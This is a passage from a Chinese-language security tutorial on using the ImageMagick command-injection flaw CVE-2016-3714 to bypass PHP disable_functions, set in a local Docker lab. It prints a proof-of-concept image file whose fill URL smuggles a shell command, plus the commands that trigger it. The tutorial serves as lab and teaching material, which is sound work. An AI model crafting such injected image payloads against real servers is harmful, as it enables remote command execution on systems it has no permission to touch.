 6. 命令执行成功。

## 4. 利用 ImageMagick 命令执行漏洞 bypass disable_functions

利用 [ImageMagick 命令执行漏洞（CVE-2016–3714）](https://github.com/Medicean/VulApps/tree/master/i/imagemagick/1)

> ImageMagick是一款开源图片处理库，支持 PHP、Ruby、NodeJS 和 Python 等多种语言，使用非常广泛。包括 PHP imagick、Ruby rmagick 和 paperclip 以及 NodeJS imagemagick 等多个图片处理插件都依赖它运行。

**获取环境**

拉取镜像到本地

`$ docker pull medicean/vulapps:i_imagemagick_1`

启动环境

`$ docker run -d -p 8000:80 --name=i_imagemagick_1 medicean/vulapps:i_imagemagick_1`

 > -p 8000:80 前面的 8000 代表物理机的端口，可随意指定。

- 使用与利用
- 本地测试

在容器中 `/poc.png` 文件内容如下：
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://evalbug.com/"|ls -la")'
pop graphic-context
```

在物理机上直接执行下面命令验证漏洞：

`$ docker exec i_imagemagick_1 convert /poc.png 1.png`

或进入 docker容器 shell 中执行：

`$ convert /poc.png 1.png`

如果看到 `ls -al 命令成功执行`，则存在漏洞。

![](img/5.png)
